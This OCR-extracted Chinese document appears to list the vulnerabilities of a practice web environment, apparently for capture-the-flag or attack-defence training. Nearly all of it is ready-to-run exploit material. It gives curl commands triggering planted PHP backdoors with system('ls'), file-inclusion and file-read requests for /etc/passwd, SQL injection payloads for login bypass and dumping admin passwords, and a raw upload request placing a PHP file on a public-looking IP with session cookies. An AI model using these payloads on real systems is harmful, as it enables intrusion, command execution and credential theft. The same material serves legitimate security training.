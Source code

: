 # web

## 后门

```
a.php: curl "127.0.0.1/a.php?c=system('ls');" 
.a.php: curl "127.0.0.1/.a.php?c=system('ls');" 
conﬁg.php: curl "127.0.0.1/conﬁg.php?c=system('ls');" 
footer.php: curl "127.0.0.1/footer.php" --data "shell=ls" 
index.php: curl "127.0.0.1/index.php?aa=system('ls');" 
admin/footer.php: curl "127.0.0.1/footer.php" --data "shell=ls"
```

## 文件包含

about.php: curl "127.0.0.1/about.php?ﬁle=/etc/passwd"



## 任意文件读取

contact.php: curl "127.0.0.1/contact.php?path=/etc/passwd"



## SQL注入

login.php: curl "127.0.0.1/login.php" --data "username=aa&password=a'||'1'='1" 

search.php: curl "127.0.0.1/search.php?id=10 union select 1,2,user_pass from admin"

另外，本环境具有sql导入导出环境



## 文件上传

需登录后使用

```
POST /admin/upload.php HTTP/1.1 
Host: 47.105.121.116:9090 
Content-Length: 203 
Cache-Control: max-age=0 
Origin: http://47.105.121.116:9090 
Upgrade-Insecure-Requests: 1 
Content-Type: multipart/form-data; boundary=---WebKitFormBoundarym3oBOAiRhgSccYAv 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng ,*/*;q=0.8 
Referer: http://47.105.121.116:9090/admin/index.php 
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6 
Cookie: UM_distinctid=164d08792003bd-061c93ec0d52f4-163c6952-13c680164d0879201922; CNZZDATA400379=cnzz_eid%3D1600348587-1532506902%26ntime%3D1532506902; CNZZDATA1261321738=1277624812-1532531826http%253A%252F%252F47.105.121.116%253A9090%252F%7C1532768947; PHPSESSID=ujg0tpds1u9d23b969f2duj5c7 
Connection: close

------WebKitFormBoundarym3oBOAiRhgSccYAv Content-Disposition: form-data; name="pic"; filename="1.php" Content-Type: application/json

<?php phpinfo();?> ------WebKitFormBoundarym3oBOAiRhgSccYAv--
```

